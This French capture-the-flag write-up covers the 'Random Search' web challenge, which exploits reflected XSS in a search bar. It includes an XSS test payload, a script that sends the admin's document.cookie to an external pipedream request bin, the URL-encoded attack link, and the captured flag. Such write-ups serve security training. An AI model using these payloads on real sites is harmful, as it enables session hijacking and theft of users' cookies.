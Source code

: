 # Random Search
<img src="https://media.discordapp.net/attachments/768928242467340328/840138995673071616/unknown.png"/><br/>
Challenge web super basique, on doit trouver un moyen de voler le cookie de l'administrateur.<br/>
## Résolution
En visitant le site qui nous est donné, je vois deux points intéressants.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840139522376335370/unknown.png?width=1440&height=550"/><br/>
On a un contexte d'XSS plutôt récurrent où on peut contacter l'administrateur.<br/>
On a notamment un searchbar à notre disposition. Je décide m'attaquer dessus.<br/>
Premièrement je teste cette payload ```<svg/onload=prompt();>```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840140153799311380/unknown.png?width=1440&height=470"/><br/>
Le searchbar est vulnérable aux attaques XSS. On a donc notre point d'injection.<br/>
En premier temps je crée un requestbin sur https://pipedream.com/ <br/>
Cette payload est une redirection vers mon pipedream.<br/>
```<script>document.location="https://enx36kg9aihcldt.m.pipedream.net?cookie="+document.cookie;</script>```<br/>
Je pose la payload dans le paramètre search.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=%3Cscript%3Edocument.location%3D%22https%3A%2F%2Fenx36kg9aihcldt.m.pipedream.net%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E```<br/>
J'envoie ce lien dans le contact et après quelques minutes j'ai un retour sur mon pipedream.<br/>
Et hop je vois le flag dans le header cookie.<br/>
```?cookie=admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}```
